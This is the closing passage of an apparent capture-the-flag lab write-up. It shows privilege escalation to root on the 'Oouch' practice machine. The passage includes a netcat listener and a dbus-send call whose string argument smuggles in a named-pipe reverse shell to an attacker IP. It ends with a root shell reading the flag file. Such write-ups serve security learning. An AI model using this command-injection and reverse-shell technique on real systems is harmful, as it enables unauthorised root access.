 ```bash
qtc@oouch:/tmp$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 40378
whoami
www-data
```
Now we will go ahead and exploit the `dbus` service.

```bash
www-data@aeb4525789d8:/code$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.xx.xx 1234 >/tmp/.0;"
<| /bin/bash -i 2>&1 | nc 10.10.14.2 1234 >/tmp/.0;"
method return time=1596193829.553087 sender=:1.1 -> destination=:1.335 serial=3 reply_serial=2
   string "Carried out :D"
www-data@aeb4525789d8:/code$
```

Now we wait a few moments for the dbus service to send and we should get a connection on our listener
```bash
➜  ~ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.177] 56788
bash: cannot set terminal process group (2551): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# wc root.txt
wc root.txt
 1  1 33 root.txt
root@oouch:/root# whoami && hostname
whoami && hostname
root
oouch
root@oouch:/root#
```

Thanks so much for reading this hope that you enjoyed!
